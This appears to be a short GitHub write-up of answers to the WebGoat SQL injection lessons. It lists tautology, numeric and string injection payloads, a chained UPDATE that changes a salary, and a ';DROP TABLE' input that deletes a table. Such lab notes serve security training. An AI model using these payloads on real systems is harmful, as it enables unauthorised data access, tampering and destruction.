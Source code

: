 ### wehave to write query to select specific user
i used user id from previous page
```
SELECT * FROM employees WHERE userid=96134
```
### create table
```
ALTER TABLE employees ADD phone VARCHAR(20)
```

### sql injection with options
we need to make query like
```
 SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1'
 ```
### numeric SQL injection
Login_count is to be integer <br/>
we put Login_count=1 and userid = 1 OR 1=1
query become
```
SELECT * From user_data WHERE Login_Count = 1 and userid= 1 OR 1=1
```
### String SQL injection
we put lastname = ' OR 1=1 OR ''= '<br />
auth_tan = ' OR 1=1-- <br />
Query becomes
```
SELECT * FROM employees WHERE last_name = '' OR 1=1 OR ''= '' AND auth_tan = '' OR 1=1--'
```

### Query chaining
we just chain an update with our query
```
employee_name = 'Smith'
auth_tan = 3SL99A' ;UPDATE employees SET salary=100000 WHERE last_name='Smith'--
```

### Compromising Availability 

```
search = ';DROP TABLE access_log
```
